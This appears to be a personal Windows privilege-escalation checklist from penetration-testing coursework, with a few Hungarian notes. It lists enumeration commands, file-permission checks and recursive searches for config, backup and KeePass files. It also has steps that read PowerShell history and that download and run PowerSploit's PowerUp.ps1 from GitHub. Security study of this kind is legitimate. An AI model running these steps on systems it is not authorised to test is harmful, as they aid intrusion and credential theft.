 # Basic Windows Privilege Escalation Checklist
## Situational Awareness
* Hostname, username, current user - privileges and group memberships, current dir, common dirs, etc...
  * hostname
  * whoami
  * whoami /priv
  * whoami /groups
  * cd, dir, dir C:\, dir C:\Users, tree /F
* Existing users and groups
  * net user
  * net user User1
  * net localgroup
  * net localgroup Administrators
  * query user
* Operating system, version and architecture
  * systeminfo
* Network information
  * ipconfig /all
  * netstat -ano
  * route print
  * arp -a
* Running processes
  * tasklist
  * tasklist /svc
* Installed applications
  * WMIC
    * C:\> wmic [ENTER] product get name, version [ENTER]
    * varni kell egy kicsit, nem ad egybol eredmenyt
    * lehet erdemes redirectelni az eredmenyt egy file-ba (product get name, version > output.txt)
  * Powershell
  <pre>
  PS> Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
  PS> Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
  </pre>
  * Listing C - Program Files folders
    * C:\> dir "C:\Program Files"
    * C:\> dir "C:\Program Files (x86)"
## File permissions
* cmd
<pre>
C:\> icacls "C:\Users\user1\desktop\test.exe"
C:\Users\user1\desktop\test.exe
BUILTIN\Administrators:(F)
NT AUTHORITY\SYSTEM:(F)
BUILTIN\Users:(RX)
NT AUTHORITY\Authenticated Users:(RX)
Successfully processed 1 files; Failed processing 0 files
</pre>
* powershell
<pre>
PS> Get-Acl "C:\Users\user1\desktop\test.exe"
...
</pre>
## Searching Files and Folders
* Searching files by extension
<pre>
PS> Get-ChildItem -Path C:\ -Include *.txt,*.ini,*.conf,*.xml,*.json,*.yml,*.yaml,*.kdbx,*.bak,*.bck,*.old -File -Recurse -ErrorAction SilentlyContinue
PS> Get-ChildItem -Path C:\ -Include *.bat,*.vbs,*.js,*.asp,*.aspx,*.js,*.ps1,*.psm1,*.php,*.jar,*.jsp -File -Recurse -ErrorAction SilentlyContinue
PS> Get-ChildItem -Path C:\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.xlsm,*.doc,*.docx,*.docm,*.ppt,*.pptx -File -Recurse -ErrorAction SilentlyContinue
PS> Get-ChildItem -Path C:\ -Include *.rar,*.zip,*.iso,*.tar,*.7z -File -Recurse -ErrorAction SilentlyContinue
</pre>
* Searching 'modifiable service files' (with Powersploit's PowerUp.ps1)
<pre>
PS> Invoke-WebRequest -Uri "https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1" -OutFile .\PowerUp.ps1
PS> Import-Module .\PowerUp.ps1
PS> Get-ModifiableServiceFile
</pre>
## Powershell history
<pre>
PS> Get-History

PS> (Get-PSReadlineOption).HistorySavePath
C:\Users\dave\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

PS> type C:\Users\dave\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
</pre>
## Service Binary Hijacking
* PEN200.pdf 500. oldal...
## Service DLL Hijacking
* PEN200.pdf 507. oldal...
## Unquoted Service Paths
* PEN200.pdf 514. oldal...
